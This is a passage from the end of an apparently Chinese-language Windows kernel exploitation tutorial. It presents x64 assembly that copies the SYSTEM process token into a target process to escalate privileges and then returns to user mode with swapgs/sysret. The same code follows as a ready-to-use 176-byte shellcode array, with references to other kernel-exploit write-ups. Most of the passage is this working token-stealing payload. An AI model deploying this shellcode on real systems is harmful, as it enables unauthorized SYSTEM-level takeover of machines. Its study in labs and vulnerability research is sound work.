    and rdx, 0xFFFFFFFFFFFFFFF0           ;system token: 消除低8位，便于解析Token
    mov rbx, [rdx + 0x40]     ;rbx = System token的Present
    mov rcx, [r9 + 0x4b8]     ;rcx = 新的EPROCESS的token
    and rcx, 0xFFFFFFFFFFFFFFF0           ;new current token: 消除低8位，便于解析Token
    mov [rcx + 0x40], rbx
    mov [rcx + 0x48], rbx

    mov     rax, gs:188h
    mov     cx, [rax+1E4h]
    inc     cx
    mov     [rax+1E4h], cx
    mov     rdx, [rax+90h]
    mov     rcx, [rdx+168h]
    mov     r11, [rdx+178h]
    mov     rsp, [rdx+180h]
    mov     rbp, [rdx+158h]
    xor     eax, eax
    swapgs
    o64 sysret
```

得到 shellcode

```plain
unsigned char cmd[176] = {
    0x48, 0x31, 0xC0, 0x65, 0x48, 0x8B, 0x80, 0x88, 0x01, 0x00, 0x00, 0x48,
    0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xC1, 0x48, 0x8B, 0x80,
    0x48, 0x04, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x8B, 0x50, 0xF8, 0x49,
    0x89, 0xC0, 0x48, 0x8B, 0x00, 0x48, 0x83, 0xFA, 0x04, 0x75, 0xF0, 0x49,
    0x8B, 0x50, 0x70, 0x48, 0x83, 0xE2, 0xF8, 0x49, 0x8B, 0x89, 0xB8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xE1, 0x07, 0x48, 0x01, 0xCA, 0x49, 0x89, 0x91,
    0xB8, 0x04, 0x00, 0x00, 0x49, 0x8B, 0x50, 0x70, 0x48, 0x83, 0xE2, 0xF0,
    0x48, 0x8B, 0x5A, 0x40, 0x49, 0x8B, 0x89, 0xB8, 0x04, 0x00, 0x00, 0x48,
    0x83, 0xE1, 0xF0, 0x48, 0x89, 0x59, 0x40, 0x48, 0x89, 0x59, 0x48, 0x65,
    0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x66, 0x8B, 0x88, 0xE4,
    0x01, 0x00, 0x00, 0x66, 0xFF, 0xC1, 0x66, 0x89, 0x88, 0xE4, 0x01, 0x00,
    0x00, 0x48, 0x8B, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x8A, 0x68,
    0x01, 0x00, 0x00, 0x4C, 0x8B, 0x9A, 0x78, 0x01, 0x00, 0x00, 0x48, 0x8B,
    0xA2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8B, 0xAA, 0x58, 0x01, 0x00, 0x00,
    0x31, 0xC0, 0x0F, 0x01, 0xF8, 0x48, 0x0F, 0x07
};
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145432-6d90b422-ba85-1.png)

缺点就是程序无法 exit 退出，不过可以在 shellcode 中设置 Token 迁移等一些其他操作，这里就不展开了

# 参考

[https://wumb0.in/finding-the-base-of-the-windows-kernel.html](https://wumb0.in/finding-the-base-of-the-windows-kernel.html)

[https://github.com/xct/windows-kernel-exploits](https://github.com/xct/windows-kernel-exploits)

[https://connormcgarr.github.io/x64-Kernel-Shellcode-Revisited-and-SMEP-Bypass/](https://connormcgarr.github.io/x64-Kernel-Shellcode-Revisited-and-SMEP-Bypass/)

[https://hshrzd.wordpress.com/2017/06/22/starting-with-windows-kernel-exploitation-part-3-stealing-the-access-token/](https://hshrzd.wordpress.com/2017/06/22/starting-with-windows-kernel-exploitation-part-3-stealing-the-access-token/)

[https://mdanilor.github.io/posts/hevd-2/](https://mdanilor.github.io/posts/hevd-2/)
